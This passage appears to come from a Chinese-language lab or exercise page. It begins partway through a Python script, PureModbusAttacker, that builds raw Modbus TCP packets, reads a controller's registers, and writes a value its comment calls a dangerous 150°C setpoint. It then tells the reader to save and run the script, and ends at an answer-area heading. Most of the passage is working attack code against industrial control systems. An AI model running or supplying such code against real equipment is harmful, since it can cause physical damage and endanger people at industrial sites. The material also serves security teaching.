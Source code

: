 ```python
    
    def build_write_packet(self, address, value, unit_id=1):
        """建構寫入封包"""
        packet = struct.pack('>HHHBBHH',
                           self.transaction_id, 0, 6, unit_id,
                           0x06, address, value)
        self.transaction_id += 1
        return packet
    
    def execute_attack(self):
        """執行完整攻擊序列"""
        # 讀取當前狀態
        read_packet = self.build_read_packet(0, 4)
        self.sock.send(read_packet)
        response = self.sock.recv(1024)
        
        # 寫入危險數值
        write_packet = self.build_write_packet(0, 1500)  # 150°C
        self.sock.send(write_packet)
        self.sock.recv(1024)
        
        print("[+] 攻擊執行完成")

def main():
    attacker = PureModbusAttacker('192.168.56.1')
    attacker.connect()
    attacker.execute_attack()

if __name__ == "__main__":
    main()
```

將以上程式碼儲存為 `pure_modbus_attack.py`，然後執行：
```bash
python3 pure_modbus_attack.py
```

## 答題區